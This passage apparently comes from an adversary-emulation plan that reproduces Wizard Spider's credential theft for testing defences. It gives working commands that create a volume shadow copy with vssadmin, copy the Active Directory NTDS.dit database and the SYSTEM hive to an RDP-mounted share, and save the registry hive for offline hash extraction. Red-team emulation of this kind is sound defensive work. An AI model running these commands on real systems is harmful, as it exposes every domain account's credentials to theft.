 Wizard Spider uses vssadmin to create the shadow copy.

Wizard Spider exfiltrates the shadow copy files using an RDP-mounted network share.

--- 

### :biohazard: Procedures

:warning: Spawn a **CMD** shell within your PowerShell window:

```bash
cmd.exe
```

```bash
cls
```

```bash
# Wizard Spider has gained access to credentials via exported copies of the ntds.dit Active Directory database.[3]

vssadmin.exe create shadow /for=C:
```

You will get output resembling the following:

```
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

:warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```bash
reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```

Notionally, Wizard Spider carves credentials offline from ntds.dit using tools like Impacket's secretsdump.py

### :microscope: Cited Intelligence

* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html

<br>

## Step 9 - Ryuk Inhibit System Recovery
